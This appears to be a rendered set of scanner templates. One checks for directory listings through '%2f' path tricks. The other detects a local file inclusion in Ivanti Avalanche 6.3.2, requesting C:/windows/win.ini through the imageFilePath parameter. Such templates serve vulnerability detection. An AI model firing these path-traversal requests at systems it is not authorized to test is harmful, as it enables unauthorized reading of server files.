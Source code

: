 - {{BaseURL}}/%2f/
- {{BaseURL}}/sample-apps/hello/%2f/

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. Index of /

**Type - regex**

- part - body
- regex
  1. [A-Za-z].\*\.R

---

# Ivanti Avalanche 6.3.2 - Local File Inclusion

## Description

- Ivanti Avalanche 6.3.2 is vulnerable to local file inclusion because it allows remote unauthenticated user to access files that reside outside the 'image' folder.
- severity - high
- tags - cve,cve2021,avalanche,traversal,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/AvalancheWeb/image?imageFilePath=C:/windows/win.ini

### Matchers

**Type - word**

- part - body
- words
  1. for 16-bit app support

**Type - status**

- status
  1. 200

---
